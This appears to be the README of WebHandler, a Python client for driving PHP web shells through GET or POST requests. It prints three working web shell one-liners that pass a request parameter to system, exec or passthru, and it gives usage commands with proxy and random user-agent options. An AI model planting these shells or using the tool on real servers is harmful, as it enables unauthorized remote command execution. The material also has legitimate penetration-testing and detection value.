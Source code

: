 WebHandler - command controller for PHP system function
---
![My image](http://s11.postimage.org/nq2hdsvpf/webhandler.png)

### Info: ###
---
WebHandler is a command controller to handle PHP _program execution functions_ like system, passthru, exec and etc...
The script tries to simulate Linux bash as it works from CLI.
As of optional settings it supports HTTP proxy together with HTTP header values "User-Agent".
It sends requests to the server through urllib/urllib2 [Python][] modules.

* WebHandler works for **POST** and **GET** requests:
    - `<?php system($_GET['cmd']); ?>`
    - `<?php exec($_POST['cmd']); ?>`
    - `<?php passthru($_REQUEST['cmd']); ?>`

### Usage: ###
---
* --url is a positional argument withing GET and POST requests:
    - python webhandler.py --url http://www.mywebsite.com/shell.php?cmd=
    - python webhandler.py --url http://www.mywebsite.com/shell.php --method POST --parameter cmd
    - python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --random-agent --turbo
    - python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --proxy http://127.0.0.1:8080


__Requirements__
---
If your [Python][]'s version < 2.7.x, then [argparse][] **is required**.
To install it run: `sudo apt-get install python-setuptools && sudo easy_install argparse` **OR** `sudo pip --install argparse`

[readline][] **is optional**.
This module it used to provide elaborate line editing and history features

[git][] **is optional**.
This allows for the project to be kept up-to-date

[Python]: http://www.python.org/download/
[argparse]: http://docs.python.org/library/argparse.html
[readline]: http://cnswww.cns.cwru.edu/php/chet/readline/rltop.html
[git]: http://git-scm.com
